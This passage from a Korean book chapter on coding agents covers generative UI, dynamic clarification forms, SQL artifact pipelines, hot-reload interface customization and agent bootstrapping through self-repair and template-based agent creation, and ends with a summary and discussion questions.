이런 프로토콜의 핵심 설계 원칙은 **보안 우선**이다. 클라이언트가 Card, Button, TextField, Table 같은 신뢰할 수 있는 구성 요소 카탈로그를 유지하며, 카탈로그와 렌더러를 올바르게 강제하면 에이전트는 등록된 구성 요소만 요청할 수 있고 임의 코드를 주입할 수 없다. 클라이언트는 에이전트가 생성한 임의 HTML을 실행하는 대신 자체 네이티브 구성 요소로 렌더링한다. 이런 프로토콜은 보통 같은 설명을 React, Flutter, 네이티브 앱에서 렌더링하는 **크로스 플랫폼 렌더링**과, JSONL을 스트리밍해 도착하는 대로 클라이언트가 렌더링하는 **점진적 생성**도 지원한다.

물론 선언형 접근법은 양식, 표, 카드 같은 표준화된 상호작용 시나리오에 적합하다. 맞춤형 시각화나 게임 인터페이스처럼 고도로 사용자화해야 할 때는 직접 코드를 생성하는 편이 여전히 더 유연하다. 아래에서 두 패턴의 구체적인 적용 사례를 살펴본다.

**HTML로 결과 전달: Markdown 보고서 대체.** 생성형 UI는 상호작용 중에만 사용되는 것이 아니라 에이전트의 최종 **결과물** 형태도 바꾸고 있다. 전통적으로 에이전트는 작업을 마치면 Markdown 보고서를 전달하지만, 선형으로 배치된 Markdown을 페이지처럼 넘겨 읽는 경험은 쾌적하지 않다. 에이전트의 프런트엔드 코드 생성 능력이 향상되면서 HTML을 직접 만들게 하는 쪽으로 실무가 이동하고 있다. HTML 결과물은 Markdown보다 몇 가지 뚜렷한 장점이 있다. 첫째, **상호작용형 시연**을 통해 사용자가 시스템의 작동 방식을 직접 살펴볼 수 있으며, 긴 텍스트 설명보다 한눈에 이해하기 쉬운 경우가 많다. 둘째, **더 나은 데이터 시각화**로 사용자가 차트와 상호작용형 컨트롤을 사용해 데이터를 탐색하고 필터링하며 세부 정보를 파고들 수 있다. 셋째, **지속적으로 개선 가능한 결과물**을 통해 에이전트가 마지막에 정적 산출물 하나만 만드는 대신 작업 내내 HTML 웹사이트를 업데이트하고 확장할 수 있다.

저자가 연구 논문을 쓰는 경험을 예로 들어 보자. 저자는 연구 프로젝트마다 상호작용형 웹사이트를 운영한다[^ch5-4]. 이 사이트는 최종 결과물이자 연구 과정 내내 살아 있는 문서다. 실험이 진행될 때마다 에이전트가 계속 업데이트한다. 웹사이트는 적어도 세 가지 목적을 수행한다. 첫째는 **실험 데이터 추적 가능성**이다. 모든 실험의 구체적인 데이터, 사용한 프롬프트, LLM의 원시 응답을 사이트에서 항목별로 살펴볼 수 있다. 모든 것을 공개적으로 펼쳐 놓으면 데이터 구성, 형식, 분포의 문제를 찾고 LLM 응답이나 심사자의 점수에 나타나는 체계적 편향을 발견하기가 더 쉽다. 둘째는 **학습 지표 모니터링**이다. 사이트에 학습 곡선을 직접 표시해 모델의 **내부 건강 지표**를 손쉽게 모니터링하고 학습 과정이 건전한지 판단할 수 있다. 이 용어는 의학에서 빌려왔다. 학습 및 검증 손실, 그래디언트 노름, 학습률, 모델이 토큰을 출력할 때 자신의 출력에 얼마나 “확신”하는지를 나타내는 혼란도(perplexity), 강화 학습의 보상, KL 발산, 정책 엔트로피는 학습 과정 자체의 건강 상태를 나타내는 내부 신호다. 이는 작업 정확도 같은 최종 결과 지표와 다르다. 건강검진의 생리적 측정값이 사람의 겉으로 드러나는 수행 능력과 별개이듯, 내부 건강 지표는 수렴하지 않는 손실, 그래디언트 폭발, 학습 붕괴 같은 문제를 훨씬 일찍 드러내는 경우가 많다. 셋째는 **시스템 작동 방식 시연**이다. 시각화는 전체 시스템의 작동 방식을 보여 주어 독자가 AI로 만든 시스템의 구조를 한눈에 파악하게 한다.

[^ch5-4]: 저자의 연구 프로젝트 웹사이트는 https://01.me/research/에서 확인할 수 있으며, 프로젝트마다 지속적으로 업데이트되는 상호작용형 웹사이트가 있다.

**사용자 의도 명확화.**

요구 사항이 모호하거나 불완전하면 에이전트가 명확화 질문으로 빠진 정보를 수집해야 한다. OpenAI Deep Research 같은 제품은 보통 텍스트 기반 문답으로 이를 수행하지만 분명한 한계가 있다. 질문 하나마다 대화 한 차례를 소비하므로 확인할 항목 열 개에 열 라운드가 필요할 수 있어 비효율적이다. 또한 여행지가 이용 가능한 교통수단을 제한하는 경우처럼 질문 사이의 의존 관계를 표현하는 데도 약하며, 이를 일반 텍스트로 명확히 보여 주기 어렵다.

에이전트는 코드 생성으로 구조화된 상호작용형 인터페이스를 만들어 텍스트 기반 문답을 대체할 수 있다. 그림 5-8은 동적 양식 생성 과정을 통해 에이전트가 명확화 질문을 한 번에 작성할 수 있는 구조화된 인터페이스로 바꾸는 방식을 보여 준다. 에이전트는 개방형 정보를 위한 텍스트 상자, 미리 정한 선택지를 위한 드롭다운 메뉴, 복수 선택을 위한 체크박스, 날짜 입력을 간소화하는 날짜 선택기 등 다양한 입력 컨트롤이 있는 HTML 양식을 생성한다. 더 발전된 버전은 JavaScript로 연쇄 양식을 만들어 사용자의 선택에 따라 후속 질문을 표시하거나 숨기고 사용 가능한 선택지를 업데이트할 수 있다. 사용자는 전체 양식을 한 번에 작성하므로 여러 대화 라운드가 필요 없고, 필요한 모든 정보와 질문 사이의 논리 관계를 명확히 볼 수 있다.




> **실험 5-9 ★★: 동적 양식을 활용한 의도 명확화 시스템**
>
> **실험 목표**: HTML 양식을 동적으로 생성해 사용자 의도를 명확히 하는 에이전트의 능력을 검증한다.
>
> **기술적 접근법**: 에이전트가 사용자 요청을 분석해 명확히 해야 할 항목을 식별하고 연쇄 논리를 포함한 양식 코드를 생성한다. 프런트엔드가 렌더링하고, 사용자가 한 번에 제출하면, 에이전트가 JSON 데이터를 파싱해 작업을 계속한다.
>
> **인수 기준**: 사용자가 “베이징행 항공편을 예약하고 싶다”고 입력한다. 에이전트는 출발 도시(텍스트 입력), 출발일(날짜 선택기), 여행 유형(편도 또는 왕복 라디오 버튼), 귀국일(왕복을 선택했을 때만 표시) 필드가 있는 양식을 생성한다. 사용자는 모든 정보를 한 번에 제출한다.
>

**SQL 쿼리 생성.**

데이터베이스 질의는 코드 생성으로 상호작용 경험을 크게 개선할 수 있는 시나리오다. 전통적인 데이터베이스 접근은 GUI 도구나 직접 작성한 SQL에 의존한다. 전자는 조작이 번거롭고 후자는 사용자에게 전문 지식을 요구한다. 에이전트가 자연어를 SQL로 변환할 수 있지만 한 가지 중요한 설계 선택이 남는다. 에이전트가 쿼리를 실행하고 결과를 자연어로 설명해야 할까, 아니면 SQL을 산출물로 생성해 시스템이 실행하고 프런트엔드가 표시하게 해야 할까?

첫 번째 접근법이 더 “지능적”으로 보이지만 매우 비효율적이다. 큰 테이블을 질의하면 수천 행이 반환될 수 있다. LLM이 이를 모두 읽고 산문으로 설명하게 하면 토큰과 시간을 소모하며, 더 나쁘게는 LLM이 데이터를 “옮겨 적을” 때 오류를 자주 낸다. 더 나은 접근법은 **산출물 패턴(Artifact pattern)**이다. 그림 5-9는 SQL 쿼리 에이전트의 워크플로를 보여 준다. 에이전트는 데이터를 직접 읽는 대신 SQL 쿼리를 생성해 독립적인 **실행 가능 산출물**로 시스템에 전달한다. 시스템이 데이터베이스에서 쿼리를 실행하고 결과를 표로 렌더링해 사용자에게 보여 준다. 따라서 데이터는 LLM을 거치지 않고 데이터베이스에서 인터페이스로 직접 흐른다. LLM은 쿼리를 작성하지만 수천 행을 읽고 다시 서술할 필요가 없다. 이 접근법은 더 빠르고 정확하다.




한 단계 더 나아가 에이전트는 SQL 쿼리와 막대그래프 같은 시각화 코드라는 두 산출물을 생성해 파이프라인을 만들 수 있다. 프런트엔드가 SQL 결과를 시각화 코드에 직접 전달한다. LLM은 코드를 생성하지만 데이터 경로에는 참여하지 않는다. 이것이 인터페이스로서 코드 생성의 본질이다.

> **실험 5-10 ★★: 자연어 상호작용 ERP 에이전트**
>
> 전사적 자원 관리(ERP, Enterprise Resource Planning) 소프트웨어는 기업의 핵심 시스템이며, 보통 GUI 인터페이스를 사용하므로 복잡한 작업에는 여러 번의 마우스 클릭이 필요하다. AI 에이전트가 사용자의 자연어 요청을 SQL 쿼리로 변환하면 데이터베이스 접근을 자동화할 수 있다.
>
> 요구 사항: 두 개의 테이블이 있는 PostgreSQL 데이터베이스를 구성한다. (1) 직원 테이블: 직원 ID, 이름, 부서, 직급, 입사일, 퇴사일(NULL은 현재 재직 중임을 뜻한다). (2) 급여 테이블: 직원 ID, 지급일, 급여(월별 한 레코드). 에이전트가 다음 질문에 자동으로 답한다.
>
> 1. 직원의 평균 근속 기간은 얼마인가?
> 2. 부서별 재직 직원은 몇 명인가?
> 3. 직원의 평균 직급이 가장 높은 부서는 어디인가?
> 4. 올해와 지난해에 부서별로 신입 직원이 몇 명 입사했는가?
> 5. 재작년 3월부터 지난해 5월까지 A 부서의 평균 급여는 얼마였는가?
> 6. 지난해 평균 급여는 A와 B 중 어느 부서가 더 높았는가?
> 7. 올해 직급별 직원의 평균 급여는 얼마인가?
> 8. 근속 기간이 1년 미만, 1~2년, 2~3년인 직원의 지난달 평균 급여는 얼마인가?
> 9. 지난해에서 올해까지 급여가 가장 많이 오른 직원 10명은 누구인가?
> 10. 미지급 급여 사례, 즉 특정 달에 재직했지만 그달의 급여 기록이 없는 직원이 있는가?
>

**소프트웨어의 동적 생성.**

코드 생성의 궁극적인 활용은 에이전트가 소프트웨어 전체를 처음부터 동적으로 만들게 하는 것이다. Anthropic의 “Imagine with Claude”는 이 최전선을 보여 준다. 사용자가 요청하면 Claude가 프런트엔드 인터페이스와 상호작용 논리를 실시간으로 생성한다. 사용자가 생성된 소프트웨어와 상호작용하면 Claude가 코드를 수정해 결과를 보여 주는 새 인터페이스를 만든다. 사용자는 아무것도 없던 곳에서 애플리케이션이 생겨나 계속 발전하는 모습을 지켜본다.

그러나 완전한 동적 생성은 비용이 많이 들고 느리므로 프로덕션보다 가능성을 보여 주는 시연에 더 적합하다. 더 실용적인 접근법은 **기존 프레임워크를 사용자화하는 것**이다. 이러한 “반맞춤형” 모델은 기반 소프트웨어의 안정성을 유지하면서 선택한 측면만 사용자가 제어하게 한다. 사용자는 “버튼을 파란색으로 바꿔라”, “사이드바에 바로 가기 메뉴를 추가하라”, “더 읽기 쉬운 글꼴로 바꿔라”라고 말할 수 있다. 에이전트가 프런트엔드 코드를 업데이트하면, 전체 페이지를 다시 불러오지 않고 영향을 받는 모듈만 업데이트하며 보통 애플리케이션 상태도 유지하는 핫 모듈 교체(HMR, Hot Module Replacement)가 변경 사항을 즉시 적용한다. 모든 사람에게 같은 제품이 사용자마다 맞춤화된 경험으로 바뀐다.

> **실험 5-11 ★★: 대화형 인터페이스 사용자화 시스템**
>
> **실험 목표**: 사용자가 자연어 대화로 소프트웨어 인터페이스를 즉시 사용자화하게 하고, 핫 리로드를 결합한 코드 생성이 개인화된 사용자 경험을 효과적으로 제공하는지 평가한다.
>
> **기술적 접근법**: 기본 챗봇 애플리케이션(React 프런트엔드와 FastAPI 백엔드)을 만들고, React HMR과 FastAPI 리로드로 핫 리로드를 활성화한 개발 모드에서 두 구성 요소를 실행한다. 사용자는 대화 중에 색상, 글꼴, 레이아웃, 구성 요소 위치 같은 UI 사용자화 요구 사항을 제시한다. 에이전트가 코드를 자율적으로 수정한다. 핫 리로드 메커니즘이 파일 변경을 자동 감지하면 프런트엔드가 다시 컴파일되고 새로 고쳐져 사용자는 인터페이스 변화를 실시간으로 확인한다. 시스템은 여러 라운드의 반복 사용자화를 지원한다.
>

### 코드를 만드는 코드: 에이전트 부트스트래핑

앞 절에서는 수학적 사고부터 문서 제작과 인터페이스 사용자화까지 여러 영역에서 코드 생성을 따라가 보았다. 이 능력을 극한까지 밀어붙이면 자연스러운 질문이 생긴다. 에이전트가 코드 생성으로 다른 에이전트를 만들 수 있을까?

먼저 이 절과 8장의 역할 분담을 명확히 해야 한다. 이 절에서는 코딩 에이전트가 코드로 **자신과 같은 종류의 에이전트를 복구하고 생성하는 방법**을 다룬다. 자기 복구, 자기 복제, 필요할 때 새로운 에이전트 생성이 이에 해당한다. 코드 생성과 시스템 구축 능력에 초점을 맞추므로 이 과정을 **부트스트래핑**이라고 한다. 8장에서는 이 코드를 작성하는 방법을 다시 설명하지 않는다. 대신 평가를 거친 프로덕션 경험이 자기 수정을 촉발하는 방식에 집중한다. 지식, 지침, 프로그램, 매개변수 중 업데이트 대상을 선택하고, 안정 버전에서 후보 버전을 생성하며, 회귀 테스트, 카나리 배포, 롤백으로 위험을 통제한다. 두 장은 “코드 수정”에서 만나지만 서로 다른 질문에 답한다.





**에이전트 자기 복구: OpenClaw Doctor.**

에이전트 부트스트래핑의 중요한 전제 조건은 자기 복구 능력이다. OpenClaw의 `doctor` 명령은 이 능력을 구현하며 세 가지 유형의 문제를 자동으로 감지할 수 있다.

- **설정 이상**: 만료된 OAuth 토큰, 레거시 설정 형식, 포트 충돌
- **상태 문제**: 오래되어 유효하지 않은 세션 잠금 파일, 누락된 플러그인 의존성
- **서비스 상태 문제**: 실행되지 않는 Gateway, 누락된 샌드박스 이미지

그런 다음 계층형 복구 전략으로 문제를 자동 해결한다. 설정 정규화와 잠금 파일 정리 같은 안전한 수정은 자동으로 실행하고, 서비스 재시작과 설정 강제 덮어쓰기 같은 위험한 작업에는 사용자 확인을 요구한다.

이 능력을 과장해서는 안 된다. 만료된 토큰, 오래된 잠금 파일, 포트 충돌처럼 자주 발생하는 문제에는 명확한 감지 규칙과 고정된 복구 작업이 있다. `doctor`는 전통적인 운영 스크립트처럼 **결정론적 검사로 이런 문제를 먼저 처리한다.** 에이전트 능력은 두 번째 계층에서 의미를 갖는다. 규칙만으로 해결하기 어려운 문제에는 `doctor`가 LLM을 사용해 오류 로그를 분석하고, 설정 파일을 해석하며, 근본 원인을 추론하고, 문제에 맞는 복구 계획을 만든다. 결정론적 검사는 일반적인 문제를 안정적으로 해결하고 LLM은 롱테일 문제를 다룬다. 두 계층을 결합하면 `doctor --fix`가 흔한 게이트웨이 문제 중 상당 부분을 자동으로 해결할 수 있다. “에이전트가 에이전트를 복구하는” 패턴인 이유는 외부 시스템이 아니라 자신의 런타임 환경을 대상으로 작업하기 때문이다. 자기 복구를 시스템 어댑터 기능에서 핵심 부트스트래핑 인프라로 끌어올린다.

**에이전트가 에이전트를 작성하게 하는 핵심 기법.**

고품질 에이전트를 만드는 일은 일반 애플리케이션 코드를 생성하는 것보다 훨씬 어렵다. 에이전트 아키텍처 패턴, 모범 사례, 흔한 함정을 깊이 이해해야 하기 때문이다. 이런 도메인 전문 지식이 없으면 가장 강력한 코드 생성 모델도 심각한 아키텍처 결함이 있는 에이전트를 만든다. 흔한 결함은 다음과 같다.

1. **임시방편식 컨텍스트 관리**: 2장에서 다룬 표준 컨텍스트 형식을 사용하지 않고, 궤적을 일반 텍스트로 컨텍스트에 밀어 넣고, 구조화된 메시지가 제공하는 KV 캐시 최적화를 무시하며, 도구 호출 루프에 경계 조건 버그를 만든다.
2. **비표준 도구 설계**: 설명이 모호하고, 사용 경계 지침과 금지 목록이 없으며, 매개변수에 구체적인 예시가 없다.
3. **낡은 기술 선택**: 학습 데이터에서 가장 흔하지만 낡은 모델과 API를 사용하는 경향이 있다. 해결책은 최첨단 지식 베이스를 유지하거나 에이전트에 검색 능력을 제공하는 것이다.
4. **외부 생태계와의 단절**: 사용 중단된 API, 유지보수되지 않는 라이브러리, 결함 있는 패턴을 사용한다.

이 문제를 해결하는 가장 효과적인 방법은 프롬프트에 모든 규칙을 빠짐없이 나열하는 것이 아니라 **고품질 에이전트 구현을 참조 예시로 제공해** 코드 생성 에이전트가 처음부터 시작하는 대신 이를 수정하도록 이끄는 것이다.

예시 기반 생성의 장점은 분명하다. 예시 코드 자체에 모범 사례가 담겨 있다. 검증된 구현을 맞게 수정하는 에이전트는 처음부터 만드는 에이전트보다 올바른 결과를 낼 가능성이 높다. 모든 규칙을 프롬프트에 일일이 적지 않아도 구현이 건전한 아키텍처 선택을 보존하기 때문이다.

에이전트가 새 에이전트를 개발하는 작업을 받으면 먼저 자신의 코드나 검증된 다른 고품질 구현을 복사한 뒤 목적에 맞게 수정해야 한다. 새 역할에 맞게 시스템 프롬프트를 조정하고, 새 기능에 맞는 도구로 바꾸거나 추가하며, 아키텍처 프레임워크를 유지한 채 비즈니스 논리를 수정한다. 이러한 “적응형 수정을 통한 자기 복제” 패턴은 생물학에서 돌연변이를 수반하는 유전자 복제와 비슷하다. 새 에이전트가 핵심 기술적 장점을 물려받으면서 특정 차원에서는 차별화할 수 있게 한다.

> **실험 5-12 ★★★: 에이전트를 만드는 에이전트 개발**
>
> **실험 목표**: 다른 프로그램을 생성하거나 수정하는 프로그램을 작성하는 메타프로그래밍 능력을 갖춘 코딩 에이전트를 구축한다. 모범 사례를 따르면서 사용자 요구 사항으로 새 에이전트 시스템을 자동 생성하게 한다.
>
> **기술적 접근법**: 코딩 에이전트에 고품질 에이전트 구현을 참조 예시로 제공한다. ch5/coding-agent 프로젝트 자체를 사용할 수 있다. 새 에이전트 생성 작업을 받으면 예시 코드를 먼저 복사한 뒤 사용자의 구체적인 요구에 맞게 수정한다.
>
> **인수 기준**: 생성된 에이전트가 정상적으로 실행되고 기본 작업을 완료한다. 표준 메시지 형식과 도구 호출 프로토콜, 현재 권장되는 모델과 API를 사용하는지, 여러 대화 차례에 걸쳐 컨텍스트와 상태를 올바르게 관리하는지 검증한다. 처음부터 생성하는 방식과 예시 기반 수정 방식을 비교해 후자가 품질과 효율을 높이는지 확인한다.
>
>
> 
>
>

에이전트 부트스트래핑은 코드 생성의 궁극적인 활용이다. 에이전트를 만들 수 있는 에이전트는 지능의 자기 복제를 실현한다. 이로써 코딩 에이전트의 토대에서 시작해 코드 생성의 다양한 활용을 지나 부트스트래핑에 이르는 이 장의 전체 흐름을 살펴봤다.

## 장 요약

이 장은 한 가지 주장을 일관되게 펼쳤다. 코드는 프로그램을 작성하는 도구에 그치지 않고 에이전트가 형식적으로 사고하고 정확하게 표현하는 언어다.

하네스 엔지니어링 절에서는 하나의 핵심 결론에 도달했다. 코딩 에이전트가 성숙한 이유는 코드 생성 모델이 유난히 강해서가 아니라 테스트 스위트, 타입 시스템, 버전 관리 등 수십 년간 축적된 소프트웨어 엔지니어링 인프라가 자연스럽게 강력한 하네스를 이루기 때문이다. 이 결론은 다른 에이전트 시나리오에도 적용할 가치가 있다. 실패와 오류 복구 절은 같은 주제의 이면을 보여 준다. 에이전트의 신뢰성은 모델이 실수하는지 여부가 아니라 모든 실패 유형에 대응하는 감지, 복구, 종료 경로가 있는지에 따라 결정된다.

후반부에서는 본문의 여섯 차원에 따라 프로그래밍 너머에서 코드 생성이 지닌 폭넓은 가치를 보여 주었다.

- **사고 도구**: 기호 계산과 제약 풀이를 활용해 확률적 사고의 단점을 보완한다.
- **비즈니스 규칙 제약**: 비즈니스 규칙을 모호함 없이 표현하고 되돌릴 수 없는 작업에 결정론적 안전망을 제공한다. 이 보장의 가치는 구현 비용보다 훨씬 크다.
- **멀티미디어 생성**: 제안자-검토자 메커니즘으로 PPT와 동영상 같은 멀티모달 콘텐츠를 만든다.
- **시스템 어댑터**: 형식의 변화를 자동으로 따라가 로그 파싱과 문제 진단을 완전히 자동화한다.
- **생성형 UI**: 양식, 시각화, 완전히 사용자화할 수 있는 애플리케이션까지 동적으로 만들어 일반 텍스트의 한계에서 벗어난다.
- **에이전트 부트스트래핑**: 코드로 기존 에이전트를 복구하고 새로운 에이전트를 만들어 궁극적으로 에이전트가 다른 에이전트를 생성하게 한다.

에이전트에 코드가 주는 가치는 이렇게 요약된다. 코드는 작업을 완료하는 수단인 동시에 지식을 축적하고 도구를 만들며 자신을 개선하는 메커니즘, 즉 진정한 “메타 능력”이다.

이제 이 책의 “에이전트 구축” 부를 마쳤으며, 코드 생성은 여기서 가장 범용적인 메타 능력이다. 하지만 한 가지 핵심 질문이 남아 있다. 이러한 설계 결정의 효과를 어떻게 과학적으로 측정할 수 있을까? 다음 장부터는 “평가와 진화”로 넘어간다. 6장에서는 평가 환경, 데이터셋, 자동 판단, 모델 선택을 아우르는 방법론을 전개한다. 이어서 7장과 8장에서는 각각 매개변수 수준과 에이전트 시스템 전체의 지속적 개선을 논의한다.

## 생각해 볼 문제

1. ★★ 코드 생성을 에이전트의 “메타 능력”이라고 한다. 하지만 코드를 실행하면 보안 위험이 생긴다. 에이전트가 생성한 코드에 취약점이 있거나, 무한 루프에 빠지거나, 자원을 고갈시킬 수 있다. 샌드박스로 일부 위험을 줄일 수 있지만 네트워크나 파일 시스템 접근을 차단하는 등 코드가 할 수 있는 일도 제한한다. 보안과 능력 사이의 최적 균형을 어떻게 찾을 수 있는가?
2. ★★★ 에이전트를 만들 수 있는 에이전트인 에이전트 부트스트래핑은 “지능의 자기 복제”를 실현한다. 그러나 부트스트래핑을 반복할 때마다 새로운 편향이나 오류가 생길 수 있다. 이러한 오류가 세대에 걸쳐 누적될까? 에이전트 부트스트래핑의 성능 저하를 어떻게 막을 수 있는가?
3. ★★ 코드 생성 에이전트가 로그 파싱을 처리하면 형식의 변화를 자동으로 따라갈 수 있다. 하지만 형식 변경이 의도한 수정이 아니라 버그라면 에이전트의 적응성이 오히려 문제를 감출 수 있다. 에이전트는 “적응해야 할 변경”과 “보고해야 할 이상”을 어떻게 구분해야 하는가?
4. ★★ 이 장에서는 PPT 생성, 동영상 편집, 로그 시각화에 제안자-검토자 메커니즘을 반복해서 사용했다. 검토자의 미적 선호가 대상 사용자의 선호와 다르다면, 예를 들어 검토자는 정보 밀도가 적절하다고 판단하지만 사용자는 지나치게 빽빽하다고 느낀다면 피드백 루프가 잘못된 국소 최적점에 수렴할 수 있다. 검토자 루프에 사용자 선호 피드백을 어떻게 반영할 수 있는가?
5. ★★ 이 장에서는 코딩 에이전트가 실행과 디버깅으로 얻은 경험을 지식 베이스 파일 작성, 아키텍처 문서 업데이트, 프로젝트 지침 파일 유지, 조작 순서의 코드화 등을 통해 코드베이스로 되돌려 고정하는 여러 방법을 보여 주었다. 이 경험을 시스템 프롬프트의 규칙으로 더 증류하면 규칙 집합이 시간이 흐를수록 계속 커질 것이다. 축적된 규칙에 어떻게 “가비지 컬렉션”을 수행해 중복되거나 낡은 항목을 식별하고 제거할 수 있는가? 코드 수정 한 번의 성공이 아직 8장에서 말하는 지속적 진화가 아닌 이유는 무엇인가?
6. ★ “원격 근무에 친화적인 팀은 대개 AI 에이전트에도 친화적이다.” 지식 문서화 측면에서 자신의 팀이나 조직은 “AI 준비”에 얼마나 가까운가? 가장 큰 장애물은 무엇인가?
7. ★★★ Simon Willison은 에이전트의 “치명적 삼각 구도”로 비공개 데이터 접근, 신뢰할 수 없는 콘텐츠 노출, 외부 통신 능력을 제시했다. 이 장에서는 네 번째 요소인 지속 메모리를 추가했다. 네 요소를 동시에 처리해야 하는 프로덕션 환경의 보안 전략을 어떻게 설계하겠는가?
8. ★★ 산출물 패턴은 에이전트가 생성한 SQL이나 프런트엔드 코드를 사용자의 브라우저나 데이터베이스에서 직접 실행하게 한다. 그러나 생성된 SQL이 파괴적인 작업을 수행하거나 생성된 HTML에 취약점이 있을 수 있다. 시스템의 보안을 어떻게 보장할 수 있는가?
9. ★★ 데이터베이스 기준 데이터에 대한 검증으로 비즈니스 규칙을 인코딩하고, 매개변수 설계로 모델이 호출 전에 정책 조건을 확인하도록 이끄는 방식은 본질적으로 코드 구조로 에이전트 행동을 제약한다. 이러한 “규칙으로서의 코드” 패턴은 자연어로 표현한 규칙과 비교할 때 어떤 장점과 한계가 있는가?
10. ★★ 산출물 패턴에서는 에이전트가 SQL이나 시각화 코드를 생성해 프런트엔드가 직접 실행하므로 LLM이 대량의 데이터를 처리할 필요가 없다. “에이전트가 코드를 생성하고 시스템이 코드를 실행하는” 분업 방식은 에이전트가 직접 답을 제공하는 전통적인 패턴과 비교할 때 어떤 장단점이 있는가?
